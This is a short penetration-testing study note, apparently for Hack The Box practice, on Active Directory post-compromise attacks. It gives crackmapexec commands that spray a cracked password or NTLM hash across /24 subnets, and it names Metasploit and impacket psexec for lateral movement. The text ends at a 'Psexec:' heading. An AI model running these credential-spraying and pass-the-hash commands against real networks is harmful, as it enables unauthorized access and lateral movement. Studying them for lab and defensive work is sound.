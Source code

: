 ```yaml
---
description: We have access, now what?
---
```


# Attacking AD: Post-Compromise Attacks

## Introduction

* <mark style="color:yellow;">All attacks within this section involve having some type of credential first</mark>
* <mark style="color:yellow;">In other words, we need access for these attacks to be effective</mark>

## Pass the Hash/Password

* We need to grab our recently obtained hash/password and throw it around the network and see if anything sticks
* We can do that easily with <mark style="color:yellow;">crackmapexec</mark>

### Pass the Password

* Let's pass what we just cracked

```
crackmapexec 10.10.10.0/24 -u user -d htb -p Password1
```

### Pass the Hash

* We can do that by running metasploit's psexec, crackmapexec, or impacket's psexec

<mark style="color:yellow;">Metasploit: windows/smb/psexec</mark>

Pass the Hash:

```
crackmapexec 10.10.10.0/24 -u user -H <hash_here> --local
```

## Pass the Password Attacks

SMB:

```
crackmapexec smb 192.168.57.0/24 -u user -d htb.local -p Password1
```

* Did you get a pwn3d?&#x20;
* Time to psexec!

Psexec:
